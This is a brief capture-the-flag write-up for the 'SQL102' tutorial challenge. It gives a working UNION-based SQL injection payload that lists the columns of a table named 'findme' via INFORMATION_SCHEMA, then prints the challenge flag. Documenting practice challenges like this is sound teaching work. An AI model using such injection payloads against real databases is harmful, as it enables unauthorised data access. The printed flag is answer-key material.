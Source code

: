 # SQL102

This is the next lesson of SQLi 101. 

The server is running at: http://sqli102.sstf.site/step3.php. 

This is a **tutorial** challenge.
If you are not sure how to solve this,  
please refer to the **tutorial guide ([Eng](https://onedrive.live.com/embed?resid=F7E83213DDD289C7!2260&authkey=!AGPulJniPCbx8v4&em=2))**.

## Solution

![image-20210816100227455](./img/image-20210816100227455.png)

SQL request is:

```sql
Feeling%' union select '',COLUMN_NAME,'','','','','','' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='findme' ##
```

## Flag

```
SCTF{b451c_SQLi_5k1lls}
```

